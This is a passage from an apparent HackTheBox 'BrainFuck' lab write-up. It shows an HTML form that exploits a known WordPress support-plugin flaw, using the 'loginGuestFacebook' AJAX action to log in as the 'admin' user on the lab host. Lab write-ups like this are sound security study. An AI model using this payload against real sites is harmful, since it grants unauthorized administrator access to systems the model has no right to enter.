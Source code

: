 ![04-version](/assets/img/HTB/BrainFuck/04-version.png)
![05-vulns](/assets/img/HTB/BrainFuck/05-vulns.png)

With the [privilage escalation](https://security.szurek.pl/en/wp-support-plus-responsive-ticket-system-713-privilege-escalation/) we can loggin with any user, just need run this html file in our browser:

```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="admin">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```

Clicking in login to access like the user `admin`.

![06-file](/assets/img/HTB/BrainFuck/06-file.png)
